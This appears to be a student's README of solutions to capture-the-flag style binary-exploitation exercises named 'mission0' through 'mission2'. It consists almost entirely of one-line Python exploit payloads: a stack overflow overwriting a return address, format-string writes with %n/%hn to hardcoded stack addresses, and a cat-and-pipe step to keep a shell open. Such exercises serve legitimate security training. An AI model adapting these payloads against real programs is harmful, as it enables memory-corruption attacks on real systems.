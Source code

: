 # PWN
--

# First exploit - Mission 0: Ooh Easy

#### solution 1 (Exerciser Syle)
```bash
./mission0 < <(python -c "import sys;sys.stdout.write('\x3d\x07\x01\x01' + 'A'*8 + '\xab\x85\x04\x08')")
```
#### solution 2 (Personal Style)
```bash
./mission0 < <(python -c "print('\x3d\x07\x01\x01' + 'A'*8 + '\xab\x85\x04\x08')" )
```
<br><br>

# Second exploit - Mission 1: Aye Captain!

#### Step 1 - gdb n00b sol 
```bash
set args < <(python -c 'print"\x70\xd0\xff\xff" + "%134513911c" + "%4$n"')
```
#### Step 2 - gdb pro sol
```bash
set args < <(python -c 'print"\x72\xd0\xff\xff\x70\xd0\xff\xff%2044c%4$hn%31991c%5$hn"')
```

#### Step 3 - gdb pro sol [on necst machine]
```bash
set args < <(python -c 'print"\xa2\xc5\xff\xff\xa0\xc5\xff\xff%2044c%4$hn%31991c%5$hn"')
```

#### Step 4 - Road to clean sol [on necst machine]
let's find the offset on the stack due to gdb, just run the executable with this input on the shell with and without gdb. the offset will be [ADDR GDB] - [ADDR]
```bash
%22$x
```
#### Step 5 - clean sol [on necst machine]
```bash
./mission1 < <(python -c 'print"\xd2\xc5\xff\xff\xd0\xc5\xff\xff%2044c%4$hn%31991c%5$hn"') 
```

#### Step 6 - save the exploit on a file
```bash
(python -c 'print"\xd2\xc5\xff\xff\xd0\xc5\xff\xff%2044c%4$hn%31991c%5$hn"') > exploit
```

#### Step 7 - drop tha bomb, just create a file with the python script called exploit, and send to our executable ( - is for keep STDIN open)
```bash
cat exploit - | ./mission1
```
<br><br>

# Third exploit - Mission 2: Birdwatching
```bash
./mission2 < <(python -c "import sys; sys.stdout.write('AAAA' + '\x00' + '\x90'*140 + 'AAAA' + '\x00')")
```

<br><br>
